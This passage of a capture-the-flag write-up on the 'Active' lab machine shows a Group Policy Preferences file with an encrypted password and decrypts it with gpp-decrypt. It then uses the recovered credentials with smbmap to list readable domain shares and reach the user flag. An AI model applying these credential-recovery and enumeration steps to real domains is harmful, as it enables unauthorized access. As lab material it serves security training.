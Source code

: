 ```
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-
8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06"
uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName=""
description=""
cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw
/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0"
userName="active.htb\SVC_TGS"/></User>
</Groups>
```

We obtain the username SVC_TGS , as well as an encrypted password.

Group Policy Preferences (GPP) was introduced in Windows Server 2008, and among many other features,
allowed administrators to modify users and groups across their network.
An example use case is where a company’s gold image had a weak local administrator password, and
administrators wanted to retrospectively set it to something stronger. The defined password was AES-256
encrypted and stored in Groups.xml . However, at some point in 2012, Microsoft published the AES key on
MSDN, meaning that passwords set using GPP are now trivial to crack and considered low-hanging fruit.

![image](https://github.com/user-attachments/assets/17b15d7e-ee09-4b40-b48e-9effc22268bd)

We extract the encrypted password form the Groups.xml file and decrypt it using gpp-decrypt .

```
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

GPPstillStandingStrong2k18
```

The domain account SVC_TGS has the password GPPstillStandingStrong2k18 .

With valid credentials for the active.htb domain, further enumeration can be undertaken. The SYSVOL
and Users shares are now accessible.

```
smbmap -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18 -H 10.10.10.100
[+] IP: 10.10.10.100:445 Name: 10.10.10.100
 Disk Permissions Comment
 ---- ----------- -------
 ADMIN$ NO ACCESS Remote Admin
 C$ NO ACCESS Default share
 IPC$ NO ACCESS Remote IPC
 NETLOGON READ ONLY Logon server share
 Replication READ ONLY
 SYSVOL READ ONLY Logon server share
 Users READ ONLY
```

The user flag can be retrieved by connecting to the Users share, and navigating to SVC_TGS 's Desktop.
